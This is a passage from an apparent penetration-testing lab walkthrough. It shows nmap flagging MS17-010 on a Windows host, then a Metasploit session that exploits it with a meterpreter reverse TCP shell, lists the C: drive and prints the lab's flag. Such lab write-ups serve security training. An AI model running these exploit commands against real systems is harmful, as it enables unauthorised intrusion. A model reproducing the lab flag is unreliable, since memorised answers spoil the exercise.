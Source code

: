 ```zsh
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 18.32 seconds
```

```zsh
msf6 exploit(windows/smb/ms17_010_eternalblue) > use exploit/windows/smb/ms17_010_psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.129.201.97
rhosts => 10.129.201.97
msf6 exploit(windows/smb/ms17_010_psexec) > set lhost tun0
lhost => tun0
msf6 exploit(windows/smb/ms17_010_psexec) > set lport 1234
lport => 1234
msf6 exploit(windows/smb/ms17_010_psexec) > run
[*] Started reverse TCP handler on 10.10.14.124:1234 
meterpreter > ls C:/
Listing: C:/
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2020-10-05 19:18:31 -0400  $Recycle.Bin
100666/rw-rw-rw-  1       fil   2016-07-16 09:18:08 -0400  BOOTNXT
040777/rwxrwxrwx  0       dir   2020-10-02 20:22:46 -0400  Documents and Settings
040777/rwxrwxrwx  0       dir   2016-07-16 09:23:21 -0400  PerfLogs
040555/r-xr-xr-x  4096    dir   2020-10-05 21:51:03 -0400  Program Files
040777/rwxrwxrwx  4096    dir   2020-10-05 21:51:03 -0400  Program Files (x86)
040777/rwxrwxrwx  4096    dir   2020-10-02 13:28:44 -0400  ProgramData
040777/rwxrwxrwx  0       dir   2020-10-02 20:22:47 -0400  Recovery
040777/rwxrwxrwx  4096    dir   2021-09-23 11:39:44 -0400  System Volume Information
040555/r-xr-xr-x  4096    dir   2020-10-05 21:51:25 -0400  Users
040777/rwxrwxrwx  24576   dir   2021-10-19 17:43:11 -0400  Windows
100444/r--r--r--  389408  fil   2016-11-20 19:42:45 -0500  bootmgr
100666/rw-rw-rw-  14      fil   2021-10-18 16:52:34 -0400  flag.txt
040777/rwxrwxrwx  4096    dir   2021-10-18 16:51:10 -0400  inetpub
000000/---------  0       fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cat C:/flag.txt
EB-Still-W0rk$
meterpreter > 
```

# Infiltrating Unix/Linux

